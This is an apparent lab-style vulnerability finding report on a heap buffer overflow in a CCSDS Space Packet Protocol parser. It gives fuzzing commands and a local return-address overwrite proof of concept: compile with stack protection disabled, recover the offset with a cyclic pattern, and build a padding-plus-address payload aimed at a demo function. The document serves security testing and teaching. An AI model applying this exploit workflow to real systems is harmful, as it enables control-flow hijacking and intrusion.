









# CCSDS SPP Heap Buffer Overflow

## Submission Details

- **Finding title:** `Heap Buffer Overflow`
- **Submitter / organization:** `Kevin Leon`
- **Assessment or engagement reference:** `CCSDS Space Packet Protocol`
- **Date observed:** `2026-06-01`
- **Target / component:** `Code Library`
- **Target version / revision:** `v1.0.0`
- **Test environment:** `Local Lab`
- **Authorization / safety reference:**

## Objective and Conditions

- **What was being tested?** `Space Packet Protocol Pack and unpack functions`
- **Required access or prerequisites:** `Source Code`
- **Expected secure behavior:** `Handle the out of bounds cases`
- **Tools and versions:** `LLVM`

## Reproduction

### Step 1: Generate the Corpus

Start by creating protocol-aware seed files. A good seed corpus gives libFuzzer valid and near-valid SPP structures so it can mutate meaningful fields instead of spending most of its time on random bytes.

```shell
cd resources/fuzzing
mkdir -p fuzzing/corpus fuzzing/output
gcc -I./include fuzzing/generate_corpus.c src/spp/spp.c -o fuzzing/output/generate_corpus
./fuzzing/output/generate_corpus
```



The corpus should include clean packets, truncated headers, oversized declared lengths, unusual APIDs, and handler-shaped payloads. Those seeds tie the fuzzing run back to the protocol analysis from Phase 2.

### Step 2: Compile the Fuzzing Targets

Build the parser and builder targets with libFuzzer, AddressSanitizer, and UndefinedBehaviorSanitizer:

```shell
cd resources/fuzzing

$CC -g -O1 -fsanitize=fuzzer,address,undefined \
    -I./include \
    src/spp/spp.c \
    fuzzing/fuzz_spp_unpack.c \
    -o fuzzing/output/fuzz_spp_unpack

$CC -g -O1 -fsanitize=fuzzer,address,undefined \
    -I./include \
    src/spp/spp.c \
    fuzzing/fuzz_spp_pack.c \
    -o fuzzing/output/fuzz_spp_pack

$CC -g -O1 -fsanitize=fuzzer,address,undefined \
    -I./include \
    src/spp/spp.c \
    fuzzing/vulnerable_app.c \
    -o fuzzing/output/vulnerable_app
```



If `$CC` is not set, point it to a Clang build that supports libFuzzer. On macOS with Homebrew LLVM, this is often `/opt/homebrew/opt/llvm/bin/clang`; on Linux, it may be a versioned Clang under `/usr/lib/llvm-*`.

### Step 3: Use a Protocol Dictionary

The dictionary gives the fuzzer byte patterns that are meaningful for SPP: APIDs, header-like bytes, sequence flags, and length-field edge cases.

```shell
cat resources/fuzzing/fuzzing/spp.dict
```



A dictionary is not a substitute for a corpus. The corpus provides whole examples; the dictionary gives mutation hints. Together, they help the fuzzer reach parser states that random input would reach more slowly.

### Step 4: Fuzz Packet Construction

Run the builder target:

```shell
./resources/fuzzing/fuzzing/output/fuzz_spp_pack \
    -runs=5000 \
    -dict=resources/fuzzing/fuzzing/spp.dict \
    resources/fuzzing/fuzzing/corpus
```



The builder target asks whether attacker-controlled payload sizes can reach packet construction without proper bounds checks. A builder-side crash usually points to unsafe copy behavior or a mismatch between declared capacity and supplied data.

### Step 5: Fuzz Packet Parsing

Run the unpacker target:

```shell
./resources/fuzzing/fuzzing/output/fuzz_spp_unpack \
    -runs=5000 \
    -dict=resources/fuzzing/fuzzing/spp.dict \
    resources/fuzzing/fuzzing/corpus
```



In the demonstrated run, AddressSanitizer reported a heap-buffer-overflow in `spp_unpack_packet()` while copying `header.length + 1` bytes from a shorter fuzzer input. The important evidence is:

| Evidence | Meaning |
| --- | --- |
| `AddressSanitizer: heap-buffer-overflow` | The parser read past the allocated fuzzer input. |
| `READ of size 68` | The declared SPP length caused a copy larger than the available input. |
| `spp_unpack_packet spp.c:108` | The fault maps to the SPP unpacking copy. |
| `fuzz_spp_unpack.c:16` | The harness reached the parser through generated input. |
| `crash-...` artifact | The exact input was saved for reproduction and minimization. |

This finding supports the truncated-packet parser bug discussed later in Exploit Case 9. It does not automatically prove code execution; it proves a concrete memory-safety failure in the host-side parser harness.


### Step 6: Create an Offset Pattern

After a crash exists, use a deliberately vulnerable local program to practice crash-to-control-flow triage. Generate a cyclic pattern:

```shell
python3 scripts/fuzz_offset.py
```

The script writes `resources/fuzzing/fuzzing/pattern.bin`. The pattern is not random. It is designed so a value recovered from `pc`, `lr`, or a saved return address can be mapped back to an exact offset.

### Step 7: Locate the Demonstration Function

Compile the target program:

```shell
clang -g -O0 -fno-stack-protector -I./resources/fuzzing/include resources/fuzzing/fuzzing/vulnerable_app.c resources/fuzzing/src/spp/spp.c -o resources/fuzzing/fuzzing/output/vulnerable_app

# Linux
clang -g -O0 -fno-stack-protector -no-pie -I./include src/spp/spp.c fuzzing/vulnerable_app.c -o fuzzing/output/vulnerable_app
```

Find the address of the local demonstration function:

```shell
nm resources/fuzzing/fuzzing/output/vulnerable_app | grep hacker_mode
```

Example output:

```text
00000001000004f8 T _hacker_mode
```



This address is system-specific. It can change with compiler, architecture, build flags, ASLR, PIE settings, and source changes. Do not copy the example address blindly.

### Step 8: Recover the Offset in a Debugger

Run the vulnerable program under a debugger with the cyclic pattern as standard input:

```shell
# LLDB
lldb resources/fuzzing/fuzzing/output/vulnerable_app
settings set target.input-path resources/fuzzing/fuzzing/pattern.bin
run
register read pc lr fp

# GDB
gdb resources/fuzzing/fuzzing/output/vulnerable_app
run < resources/fuzzing/fuzzing/pattern.bin
```



In the demonstrated run, LLDB showed control data containing pattern bytes. The next step is to convert the relevant little-endian value back into an offset:

```shell
pwn cyclic -l 0x61666361

pwn cyclic -l acfa
```

Example result:

```text
218
```

The exact register and value depend on architecture and crash behavior. On ARM64, inspect `pc`, `lr`, and `fp`; on x86_64, inspect `rip` and the stack near `rsp`. Endianness matters when choosing the bytes to pass to `pwn cyclic -l`.

### Step 9: Build the Local Proof-of-Control Payload

Use the recovered offset and the local demonstration-function address to build an input file:

```shell
python3 scripts/fuzz_exploit.py 218 0x00000001000004f8
```



The helper writes `resources/fuzzing/fuzzing/exploit.bin` as:

```text
"A" * offset | packed target address
```

The current helper packs the address as little-endian AArch64 with `p64()`. If the reader is on a different architecture or wants a different packing width, they must modify the helper accordingly.

### Step 10: Reproduce the Local Control-Flow Result

Run the vulnerable program with the generated exploit input:

```shell
lldb resources/fuzzing/fuzzing/output/vulnerable_app
settings set target.input-path resources/fuzzing/fuzzing/exploit.bin
run
```




## Observed Result

The demonstration succeeds when execution reaches the local demonstration function and prints the expected message. Record:

- Offset value.
- Target function address.
- Architecture and endianness.
- Compiler and sanitizer flags.
- Whether ASLR/PIE was enabled.
- Exact payload path and hash.
- Debugger evidence that control flow reached the target.

## Evidence Supplied

| Item | Reference / filename | What it shows |
|---|---|---|
|Screenshot| fuzzing_gen_corpus_cmd.png | Fuzzing Generate Corpus command |
|Screenshot| fuzzing_compile_target.png | Compile target |
|Screenshot| fuzzing_dict.png | Show dictionary |
|Screenshot| fuzzing_attack_pack.png | Running pack |
|Screenshot| fuzzing_attack_unpack.png | Running unpack |
|Screenshot| fuzzing_get_offset.png | Get offset |
|Screenshot| fuzzing_get_lldb_offset.png | Get lldb offset |
|Screenshot| fuzzing_calculating_exploit.png | Calculating exploit |
|Screenshot| fuzzing_exploit.png | Exploit |

## Technical Impact Hypothesis

An attacker can generate a boundary contindion to exploit this vulnerability.

## Limitations and Unanswered Questions

- The vulnerability requieres the MAP address of the functions to know the offsets.

## Suggested Remediation and Retest

- **Suggested remediation:** Refactor the function.
- **Suggested retest:** Retest with fuzzing and SCA